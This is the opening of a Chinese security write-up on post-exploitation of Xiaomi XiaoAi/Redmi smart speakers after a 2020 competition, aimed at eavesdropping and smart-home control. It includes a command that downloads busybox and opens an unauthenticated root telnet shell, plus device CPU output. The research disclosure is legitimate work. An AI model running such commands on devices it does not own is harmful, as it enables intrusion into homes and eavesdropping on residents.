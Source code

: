 ```yaml
---
title: 2020补天杯复盘：小米小爱音箱 后渗透利用公开
categories:
- IOT
tags: 
---
```


> 2020年11月，淼哥、老徐、我，仨人代表清华校队Redbud参加补天杯，项目为现场破解小米小爱音箱Pro。预期效果为在内网环境下，通过对音箱的破解，接管目标家庭的所有米家智能家居，包括：扫地机器人，窗帘，电饭锅，台灯以及电风扇。但由于小米安全人员（李海粟、曾颖涛）进行现场干扰，导致比赛现场的小米小爱音箱启动并联网后，就直接被小米后台远程重置，也就无法进入正常的业务逻辑，最后判定漏洞演示失败。本篇将以Redmi小爱音箱Play（2020年左右软件版本的1.60.10）为例，公开我们当时完成的播放音乐、录音窃听、家居控制等后渗透利用的具体方法，虽然过后看起来难度不大，但也是我们仨经过曲折探索才找到的一条可行路径。

![image](https://xuanxuanblingbling.github.io/assets/pic/xiaomi/redmi.jpeg)

<iframe src="https://www.youtube.com/embed/y_7909frQJA" scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true" width="100%" height="600" > </iframe>

## 整体情况

小米小爱音箱全系列的技术方案类似，在软件版本上也基本保持同步，所以在软件上的后渗透利用方法也大体上强相关于软件版本，弱相关于硬件设备。本次公开的利用方法在2020年左右的软件版本（1.60.10、1.66.7等）上测试完成，目前新版本（1.80.xx及以上）不保证有效。同样，对于软件方案的整体情况说明也仅针对于老版本。先通过任意漏洞拿到shell，有的设备自带telnetd，如果没有可以自行下载完整busybox并开启telnetd：

```python
cmd =  "/usr/bin/wget --no-check-certificate https://busybox.net/downloads/binaries/1.21.1/busybox-armv7l "
cmd += "-O /data/busybox;"
cmd += "chmod +x /data/busybox;"
cmd += "/data/busybox telnetd -p 23 -l /bin/sh &"
```

### 系统信息

全志SoC，ARMv7小端：

```c
/ # cat /proc/cpuinfo
processor       : 0
model name      : ARMv7 Processor rev 5 (v7l)
BogoMIPS        : 57.14
Features        : half thumb fastmult vfp edsp neon vfpv3 tls vfpv4 idiva idivt vfpd32 lpae 
CPU implementer : 0x41
CPU architecture: 7
CPU variant     : 0x0
CPU part        : 0xc07
CPU revision    : 5

processor       : 1
model name      : ARMv7 Processor rev 5 (v7l)
BogoMIPS        : 57.14
Features        : half thumb fastmult vfp edsp neon vfpv3 tls vfpv4 idiva idivt vfpd32 lpae 
CPU implementer : 0x41
CPU architecture: 7
CPU variant     : 0x0
CPU part        : 0xc07
CPU revision    : 5

Hardware        : sun8iw18
Revision        : 0000
Serial          : 0000000000000000
```

